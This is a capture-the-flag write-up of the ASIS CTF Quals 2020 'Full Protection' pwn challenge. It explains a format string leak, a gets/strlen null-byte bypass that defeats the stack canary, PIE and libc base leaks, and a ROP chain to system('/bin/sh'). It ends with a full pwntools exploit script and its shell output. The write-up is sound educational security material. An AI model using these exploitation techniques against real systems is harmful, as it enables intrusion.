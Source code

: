<h2>Full Protection - ASIS CTF Quals</h2>
<p>05/07/2020</p>

<p>
In this post I am going to solve the "Full Protection" challenge from ASIS
CTF Quals 2020. We are given two <a href="asis.txz">files</a>: <b>chall</b>
and <b>libc-2.27.so</b>. Let's see what protections does <b>chall</b> has.
</p>

<pre>
$ checksec ./chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
</pre>


<p>
Here is what these protections mean (roughly):

<ul>
<li>RELRO ensures that the GOT can't be overwritten.</li>
<li>Canary ensures that the return address can't be overwritten, so we can't control RIP.</li>
<li>NX bit ensures that each segment is W^X, so we can't run our shellcode on the stack.</li>
<li>PIE ensures that the binary base is different each time we run it.</li>
<li>FORTIFY ensures that functions like printf don't get to read memory into far off places.</li>
</ul>

</p>

<p>
Now we can go ahead and see what the program does by decompiling it in
Ghidra. Looks like an infinite loop of reading and echoing user input.
</p>

<pre>
undefined8 main(void)
{
  -snip-
  while(true) {
    iVar1 = readline(&amp;local_58,0x40);
    if (iVar1 == 0) break;
    __printf_chk(1,&amp;local_58);
    _IO_putc(10,stdout);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
  __stack_chk_fail();
}
</pre>

<p>
We can see a printf which takes our user input (local_58) that has been
read through the readline (see below) and prints it without any format
arguments, which means that there is a format string vulnerability.
</p>

<p>
Despite that, we still won't be able to use the offset notation because it
is __printf_chk. We can test our assumptions by running the program and
providing format specifiers as input.
</p>


<pre>
$ ./chall
AAAA.%x.%x.%x.%x.%x.%x.%x.%x%x.%x.%x.%x
AAAA.2240e360.0.2240e360.0.41414141.252e7825.252e7825.2578252e2e78252e.0.0.0
</pre>

<p>
We already have a format string vulnerability, but we can't do much with
it right now except leaking the stack up to a limited extent. Let's go
ahead and decompile the readline function.
</p>

<pre>
void readline(char *param_1,int param_2)
{
  size_t sVar1;
  
  gets(param_1);
  sVar1 = strlen(param_1);
  if ((int)sVar1 &lt; param_2) {
    return;
  }
  puts("[FATAL] Buffer Overflow");
  _exit(1);
}
</pre>

<p>
We have gets! Which means that there will be no boundary check for the
user input. But unfortunately right afterwards there is a check using
strlen. We can see in the decompilation of main above that the value
passed into param_2 is 0x40 which means our buffer can only be 64
characters long.
</p>

<p>
But the interesting thing is that while strlen terminates after
encountering a null byte, gets stops at newlines. So for example if our
input is \x00AAAA\n, strlen will say that the length is zero, but the four
A's will still be stored on the stack. So we can trick the length check
and overflow the return address of the main function (since the buffer is
stored in main, readline only contains the pointer to it). The amount of
characters to input in order to redirect the control flow was figured out
using dynamic analysis through gdb.
</p>

<p>
The only issue is that before overflowing the return address, the canary
gets overflown too. So we first need to leak the canary and append it to
our input. We need to see at what offset from the format string is the
canary located, this can be done dynamically. We first observe the lines
where the canary is being set, we break on it and inspect to get the
value.
</p>

<pre>
(gdb) disas main
-snip-
   0x0000000000000859 &lt;+9&gt;:	mov    rax,QWORD PTR fs:0x28
   0x0000000000000862 &lt;+18&gt;:	mov    QWORD PTR [rsp+0x48],rax
-snip-
(gdb) b *main+18
Breakpoint 1 at 0x555555554862
(gdb) r
Breakpoint 1, 0x0000555555554862 in main ()
=&gt; 0x0000555555554862 &lt;main+18&gt;:	48 89 44 24 48	mov    QWORD PTR [rsp+0x48],rax
(gdb) i r rax
rax            0x8307ee9bdbab600   590111093561144832
</pre>

<p>
We can see that the canary value is 0x8307ee9bdbab600 now we can keep
on putting %p's in our format string until we see the canary echoed back
to us. Once we have that, we can write the canary onto the stack with the
gets overflow, to prevent stack smashing detection.
<p>

</p>
Now that we can point RIP to anything we want, we still have some issues.
Since the binary's and libc's address keep changing on each execution, we
need to first leak their bases. This can be done using the format string
vulnerability as well. After some more time with gdb, I figured out that
the canary is at offset 12 and the binary is at offset 18 from the format
string. We need to mask the lower three nibbles (4KB) to get the base for
the binary from the extracted address. We can leak libc using a simple
pop rdi gadget that we can find within the binary and use it to leak
puts and consequently libc.
</p>

<p>
Once we have libc for our ROP, we can easily spawn a shell by passing
"/bin/sh" into RDI and calling system.
</p>

<p>
A few things to keep in mind:
<ul>
<li>Make sure to call system and not just jump to it.</li>
<li>libc can be leaked directly from the stack, no need to leak binary.</li>
<li>Canaries can be found using the canary command in some gdb wrappers.</li>
<li>This binary uses an alarm which makes it harder to debug, so patch it.</li>
</ul>
</p>

<p>
The final exploit script:
</p>

<pre>
from pwn import *

fn = './chall'
r = remote('69.172.229.147',9002)

# leaking canary
r.sendline('%p-'*20)
fmt = r.recvline().split(b'-')
canary = int(fmt[-8],16)
pie = int(fmt[-2],16) & 0xfffffffffffff000
offset = b'\x00' + b'A'*71 + p64(canary) + b'A'*8

# leaking libc base
rop = ROP(fn)
elf = ELF(fn,checksec=False)
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']

rop1 = offset + p64(pie+pop_rdi) + p64(pie+puts_got) + p64(pie+puts_plt) + p64(pie+main_plt)

r.sendline(rop1)
leak = u64(r.recvline().rstrip().ljust(8, b'\x00'))
libc = ELF('./libc-2.27.so', checksec=False)
libc.address = leak - libc.symbols['puts']

# spawning a shell
binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
exit = libc.sym['exit']

#0x439c8 : pop rax ; ret
#0x21b95 : call rax
rop2 = offset + p64(pie+pop_rdi) + p64(binsh) + p64(libc.address+0x439c8) + p64(system) + p64(libc.address+0x21b95)
r.sendline(rop2)
r.interactive()
</pre>

Running the script:

<pre>
$ python3 sol.py 
[+] Opening connection to 69.172.229.147 on port 9002: Done
-snip-
[*] Switching to interactive mode
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}
</pre>

<p>
Flag: <b>ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}</b>
</p>
